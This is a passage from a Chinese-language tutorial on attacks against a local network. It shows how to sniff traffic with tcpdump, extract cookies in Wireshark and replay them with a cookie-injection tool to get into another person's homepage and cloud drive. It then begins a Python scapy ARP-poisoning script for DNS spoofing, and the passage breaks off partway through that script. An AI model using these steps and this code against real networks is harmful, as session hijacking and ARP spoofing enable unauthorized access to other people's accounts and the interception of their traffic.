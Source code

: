 　　同时使用tcpdump抓包（当然也可以使用wireshark实时抓包并显示，但对本机压力比较大，建议使用tcpdump抓包，完成后再用wireshark显示）：

```shell
tcpdump -i eth0
```

　　![img](../../../../_ImageAssets/262353279026525-1573358989603.png)

　　经过一段时间的抓包之后就可以停止了。打开wireshark分析捕获到的数据包分析，使用过滤语法，找出含有cookies的数据包：

　　![img](../../../../_ImageAssets/270003052314382-1573358989603.png)　　

　　复制出cookies的值，并在浏览器中利用，这里推荐一款好用的cooikes利用工具cookie-injecting-tools（地址：https://github.com/lfzark/cookie-injecting-tools）。利用成功后，刷新页面，就可以进入到被人的主页和网盘了：

![img](../../../../_ImageAssets/270017361996663-1573358989635.png)  ![img](../../../../_ImageAssets/270018350278790-1573358989635.png)

### DNS欺骗：

　　使用ettercap进行的DNS欺骗是使用了它的一个插件，同时结合ARP欺骗，就可以达到很好的欺骗效果。这里不再重复介绍了。重点是下面使用python实现的ARP欺骗和DNS欺骗：

```shell
#!/usr/bin/python# arp-poisoning
 
import sys
from scapy.all import sniff, sendp, ARP, Ether
 
if len(sys.argv) < 2:
    print sys.argv[0] + " <iface>"
    sys.exit(0)
def arp_poison_callback(packet):
    # Got ARP request?
    if packet[ARP].op == 1:
        answer = Ether(dst=packet[ARP].hwsrc) / ARP()
        answer[ARP].op = "is-at"
        answer[ARP].hwdst = packet[ARP].hwsrc
        answer[ARP].psrc = packet[ARP].pdst
        answer[ARP].pdst = packet[ARP].psrc
```